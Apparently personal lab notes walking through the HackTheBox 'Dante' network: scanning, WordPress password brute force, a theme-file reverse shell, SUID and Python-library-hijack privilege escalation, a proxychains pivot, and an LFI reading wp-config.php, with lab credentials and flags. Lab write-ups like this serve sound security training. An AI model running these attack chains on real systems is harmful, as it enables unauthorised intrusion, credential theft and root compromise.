 ```bash
# init scan
nmap -T4 -n 10.10.110.0/24 -oN active-hosts

# full port scan
nmap -Pn -T4 -sC -sV -p- -oA nmap/nmap-dante-fullport 10.10.110.100
```
![[Pasted image 20230121133025.png]]
```bash
# login via anon ftp and pull todo.txt for info
# first flag : DANTE{Y0u_Cant_G3t_at_m3_br0!}

# wordpress discovered on port 65000
http://10.10.110.100:65000/wordpress

# wpscan to enum users
wpscan -e u --url http://10.10.110.100:65000/wordpress
```
![[Pasted image 20230121133912.png]]
```bash
# James has weak password (found from todo.txt)
http://10.10.110.100:65000/wordpress/.wp-config.php.swp (?)

# search for names 
james
kevin
kalthazar
aj
nathan
# ceWL to create wordlist
cewl http://10.10.110.100:65000/wordpress/index.php/languages-and-frameworks > words.txt
# brute force password with wpscan
wpscan -U names.txt -P words.txt --url http://10.10.110.100:65000/wordpress


```
![[Pasted image 20230121135731.png]]
```bash
# login : http://10.10.110.100:65000/wordpress/wp-admin
james : Toyota
# Go to apperance > themes to edit phpcode for rev shell
# select twenty nineteen
nc -lvnp 8888 # listener
curl http://10.10.110.100:65000/wordpress/wp-content/themes/twentynineteen/404.php

# upgrade shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
# ctrl z 
stty raw -echo 
# fg
export TERM=xterm
# Shell upgraded

# www-data user cannot access james' home folder - try su to james 
su james (passwd Toyota)
# Flag 2 : DANTE{j4m3s_NEEd5_a_p455w0rd_M4n4ger!}

# linpeas.sh to enumerate 
```
![[Pasted image 20230121174257.png]]
```bash
# currently cant use these creds, keep up enumeration
find / -perm -4000 2>/dev/null
# permissions on "find" binary are incorrect (suid bit set)
find . -exec /bin/bash -p \; -quit

# now on a new network, ping sweep script: 
for i in {1..255} ;do (ping -c 1 172.16.1.$i | grep "bytes from" | cut -d ' ' -f4 | tr -d ':' &);done

### 
172.16.1.5
172.16.1.10
172.16.1.12
172.16.1.13
172.16.1.17
172.16.1.19
172.16.1.100
172.16.1.101
172.16.1.102
172.16.1.20
###

# add public ssh key to /root/.ssh/authorized_keys 
# then ssh into machine with 
ssh -i ~/.ssh/id_rsa -D 1337 root@10.10.110.100

# edit /etc/proxychains.conf of your LOCAL machine
# add below line 
socks5 127.0.0.1 1337 
# nmap scan through proxychains 
# nmap is not proxy aware so -sT option is used instead
proxychains nmap 172.16.1.10 -sT -sV -Pn -T5
```
![[Pasted image 20230121181245.png]]
- will throw a bunch of errors
```bash
proxychains firefox
```
![[Pasted image 20230121182146.png]]
- page = maybe vulnerable to LFI 
```bash
# test for LFI
http://172.16.1.10/nav.php?page=../../../../../../../../../../../etc/passwd
```
![[Pasted image 20230121182409.png]]
- non-default names discovered 

```bash
# testing other ports
proxychains smbclient -N -L //172.16.1.10
```
![[Pasted image 20230121182606.png]]
```bash
# non-default share
proxychains smbclient -N \\\\172.16.1.10\\SlackMigration
get admintasks.txt


```
![[Pasted image 20230121182816.png]]
```bash
# using our lfi to access otherwise hidden files

http://172.16.1.10/nav.php?page=/var/www/html/wordpress/index.php
# Nothing showed, use php filter 
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php

base64 -d base64-file > wp-config.php

```

![[Pasted image 20230121184141.png]]

```bash
# creds for margaret 
margaret : Welcome1!2@3# 

proxychains ssh margaret@172.16.1.10
# creds worked

# limited shell can only use vim 
# open vim then go to gtfobins 
:set shell=/bin/bash
:shell
# successfully escaped limited shell

cd ~/.config/Slack/exported_data
"text": "I also set you a new password on the Ubuntu box - TractorHeadtorchDeskmat, same username",

su frank # TractorHeadtorchDeskmat

cd /home/frank
```
```python
# script found
import call
import urllib
url = urllib.urlopen(localhost)
page= url.getcode()
if page ==200:
        print ("We're all good!")
else:
        print("We're failing!")
        call(["systemctl start apache2"], shell=True)
```

```bash
# restart apache script is owned by root but not writable by frank 
# the fact there is no while loop hints to cronjob 
# check with pspy tool, file named urllib.py is being created
# create new file with that name in frank home directory
```
```python 
# keep an eye on /tmp/sh
import os
os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")
```
![[Pasted image 20230121185522.png]]
```bash 
# /tmp/sh is created after a few minutes and has the stickybit
/tmp/sh -p # -p to keep permissions of file
# now root :)
# DANTE{L0v3_m3_S0m3_H1J4CK1NG_XD}
```
![[Pasted image 20230121191939.png]]
- next target

```bash

```